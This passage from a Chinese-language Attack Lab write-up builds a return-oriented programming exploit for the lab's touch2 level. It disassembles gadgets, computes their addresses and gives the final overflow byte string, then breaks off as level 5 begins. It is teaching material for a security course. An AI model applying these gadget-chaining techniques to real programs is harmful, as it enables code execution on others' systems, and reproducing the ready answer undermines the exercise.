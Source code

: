 3. **找地址**

- `<addval_219>`

```bash
disas addval_219
```

得到：

```bash
Dump of assembler code for function addval_219:
   0x00000000004019a7 <+0>:	lea    -0x6fa78caf(%rdi),%eax
   0x00000000004019ad <+6>:	retq
```

因此`popq「58」`的地址为：`0x4019a7+0x4 = 0x4019ab`

- `<addval_273>`

```bash
disas addval_273
```

得到：

```bash
Dump of assembler code for function addval_273:
   0x00000000004019a0 <+0>:	lea    -0x3c3876b8(%rdi),%eax
   0x00000000004019a6 <+6>:	retq   
End of assembler dump.
```

`movq %rax,%rdi`地址为：`0x4019a0+0x2 = 0x4019a2`

又`touch2`的地址为：`0x4017ec`

而`cookie`的指令表示为：`0x59b997fa`

3. **final result**

根据栈帧顺序得到：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

```

## 3.3 level 5

在level 5中，我们需要把字符串的起始地址，传到`%rdi`中，之后再调用`touch3`函数。
